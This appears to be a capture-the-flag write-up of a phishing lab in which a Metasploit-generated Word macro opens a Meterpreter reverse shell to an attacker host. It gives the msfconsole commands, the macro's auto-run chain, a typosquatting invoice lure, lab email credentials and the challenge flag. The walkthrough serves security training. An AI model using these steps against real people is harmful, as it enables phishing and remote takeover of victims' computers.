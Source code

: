 In this challenge, I will tell the the process of carrying out a phishing attack using a malicious macro embedded in a Microsoft Word document. This technique demonstrates how attackers can exploit the macro feature in documents to deliver payloads and gain control over a target system.

### Learning Outcomes

- Understand how phishing attacks work and how they manipulate human behavior.
- Learn how to exploit Microsoft Office macros for malicious purposes.
- Create a phishing attack that uses a macro to execute a reverse shell.

## Phishing Attacks Overview

Phishing is a form of social engineering that tricks users into performing an action, like clicking a malicious link or opening a harmful document. Instead of exploiting vulnerabilities in software, attackers leverage human error to bypass security defenses. In this challenge, the "bait" comes in the form of an email with an attachment that urges the user to open it, which contains a malicious macro designed to establish a reverse shell.

The main goal of the phishing email is to convince the target to open the malicious document. This action will trigger the macro, allowing the attacker to execute commands on the victim's system and gain remote access.

## Macros in MS Office Documents

A macro is a small set of instructions used to automate tasks. In Microsoft Office applications like Word, macros are often used to simplify repetitive tasks, such as formatting or inserting text. Unfortunately, they can be hijacked by attackers to execute harmful code.

For this challenge, I am going to create a document with an embedded macro that, when executed, will connect to my system and provide a reverse shell. This allows me to remotely control the target system. 

## Attack Plan

1. **Create a Document with a Malicious Macro**:
   I will use the Metasploit Framework to generate a Microsoft Word document (.docm) containing a malicious macro.
   
2. **Start Listening for Incoming Connections**:
   Before sending the document, I need to configure my system to listen for incoming reverse shell connections.
   
3. **Email the Malicious Document**:
   Once the document is ready, I will email it to the target user with an enticing subject to encourage them to open the file.

4. **Execute the Macro and Gain Control**:
   When the victim opens the document, the embedded macro will execute, sending a reverse shell connection to my system. I can now issue commands on their machine.

## Setting Up the Attacker's System

To begin the attack, I need to carry out the following steps on the attacker’s system:

1. **Create the Malicious Word Document**:
   Using Metasploit, I generate a malicious Word document with a payload that will create a reverse shell. The payload will connect back to my IP address and port.

   ### Step-by-Step Process to Create the Document:
   ```bash
   msfconsole
   set payload windows/meterpreter/reverse_tcp
   use exploit/multi/fileformat/office_word_macro
   set LHOST <Attacker_IP>
   set LPORT 8888
   exploit
   ```

2. **Listen for Incoming Connections**:
   After generating the document, I need to set up Metasploit to listen for incoming connections on the specified port.

   ### Command to Start Listening:
   ```bash
   msfconsole
   use multi/handler
   set payload windows/meterpreter/reverse_tcp
   set LHOST <Attacker_IP>
   set LPORT 8888
   exploit
   ```

## Creating the Malicious Document

Using the Metasploit Framework's `office_word_macro` module, I create a `.docm` file that contains the malicious macro. The macro will decode a payload embedded in the "Comments" field of the document and execute it when the document is opened.

### Key Functions in the Macro:
- **AutoOpen()**: Automatically triggers when the document is opened.
- **Base64Decode()**: Decodes the payload (a Windows executable) from the "Comments" field.
- **ExecuteForWindows()**: Executes the decoded payload and connects back to the attacker's system.

## Sending the Malicious Document

Once the malicious document is ready, I can send it to the target user via email. The document will appear as a legitimate file, like an invoice or receipt, to increase the chances of the victim opening it.

I will use a domain that is similar to the target’s to perform **typosquatting**, making the email appear more convincing. Here are the login details for sending the email:

- **Email**: info@socnas.thm
- **Password**: MerryPhishMas!

Once logged in to the email service, I can compose an email that includes a convincing message, such as:

> "Dear Marta,  
> Please find attached your invoice for this month. Kindly review the details and let us know if you have any questions."

## Exploitation

When the target opens the document and enables macros (intentionally or unknowingly), the payload is decoded and executed. The reverse shell connects to my system, and I can now execute commands on the target’s machine, gaining full control.

## So...

It demonstrates how phishing attacks can leverage Microsoft Office macros to deliver a reverse shell payload. By embedding a malicious macro in a document and convincing the target to open it, attackers can bypass traditional security defenses and gain remote access to the victim's system. This type of attack highlights the importance of being cautious when opening unsolicited emails and attachments, especially from unfamiliar or suspicious sources. 

**Answers**

*What is the flag value inside the `flag.txt` file that’s located on the Administrator’s desktop?* **THM{PHISHING_CHRISTMAS}**
